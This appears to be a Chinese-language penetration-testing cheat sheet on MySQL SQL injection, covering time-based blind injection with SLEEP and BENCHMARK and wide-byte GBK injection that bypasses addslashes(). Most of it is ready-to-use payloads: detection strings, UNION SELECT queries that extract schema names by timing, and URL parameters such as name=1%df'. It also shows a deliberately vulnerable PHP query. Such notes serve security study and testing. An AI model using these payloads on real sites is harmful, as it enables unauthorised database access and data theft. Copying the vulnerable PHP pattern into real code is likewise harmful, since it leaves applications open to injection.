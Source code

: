 ### 延时盲注-基于时间
一般会用到几个函数。使用这些的效果，是为了延缓mysql的操作，从而检测到与平时有异的情况：
+ SLEEP(n) 让mysql停n秒钟
+ BENCHMARK(count,expr) 重复countTimes次执行表达式expr

一些注意事项：
+ 使用基于时间的盲注比较不准确，因为这还取决于当前的网络环境。
+ 时间延缓最好不要超过30秒，否则容易导致mysql的API连接超时。
+ 当在页面上看不到任何明显变化时，再考虑选择使用延时注入。

#### 检测方法
```
1 OR SLEEP(25)=0 LIMIT 1 #
1) OR SLEEP(25)=0 LIMIT 1 #
1' OR SLEEP(25)=0 LIMIT 1 #
') OR SLEEP(25)=0 LIMIT 1 #
1)) OR SLEEP(25)=0 LIMIT 1 #
SELECT SLEEP(25) #
```

#### payload
```

UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,BENCHMARK(100000,SHA1(1)),0)

UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,SLEEP(10),0)

...
```
## 宽字节注入
### 原理
有如下php代码：
```php
...
mysql_query("SET NAMES 'gbk'");
....
$name = isset($_GET['name']) ? addslashes($_GET['name']) : 1;
$sql = "SELECT * FROM test WHERE names='{$name}'";
```
addslashes()会在单引号或双引号前加上一个`\`。当mysql使用GBK字符集时，会把两个字符当作一个汉字，如%df%5c为運字。我们输入`name=root%df%27`，%在服务器端会出现如下转换：`root%df%27` -> `root%df%5c%27` -> `root運'`。

更多内容可见：[浅析白盒审计中的字符编码及SQL注入](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html)
### payload
#### 吃掉`\`
```
index.php?name=1%df'
index.php?name=1%a1'
index.php?name=1%aa'
...
```
在被addslashes后，出现%XX%5c，当前一个字符的ascii码值大于128时，会被认为是一个宽字符，即使它不是个汉字。所以不是仅仅%df可以吃掉'\\'。
